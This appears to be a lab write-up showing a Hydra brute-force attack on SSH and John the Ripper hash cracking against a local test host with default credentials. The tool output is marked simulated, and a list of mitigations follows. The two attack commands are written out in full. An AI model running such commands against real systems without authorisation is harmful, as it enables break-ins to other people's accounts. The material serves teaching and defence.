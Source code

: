  Brute-Force SSH Login with Hydra

 An online brute-force attack was conducted against the SSH service (Port 22) to demonstrate the susceptibility to weak credentials.

Preparation: Simple users.txt and passwords.txt dictionary files were created (e.g., containing msfadmin, user, admin and password, 123456, msfadmin respectively).

hydra -L users.txt -P passwords.txt ssh://192.168.56.4 -t 4

# Simulated Hydra Output:
[22][ssh] host: 192.168.56.4   login: msfadmin   password: msfadmin
1 of 1 target successfully completed, 1 valid password found

Cracking Hashed Passwords with John the Ripper

john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

# Simulated John the Ripper Output:
msfadmin:(plaintext_password_found)
1 password hash cracked, 0 left

Mitigation for Password Attacks
Strong Password Policy: Implement and enforce a mandatory policy requiring passwords of significant length (e.g., >12 characters) and complexity (mix of uppercase, lowercase, numbers, symbols).

Account Lockout: Configure SSH and other login services to temporarily lock accounts after a defined number of failed login attempts.

Multi-Factor Authentication (MFA): Where possible, implement MFA to add an extra layer of security beyond just a password.

Key-Based Authentication: For SSH, prefer using secure SSH keys over password-based authentication.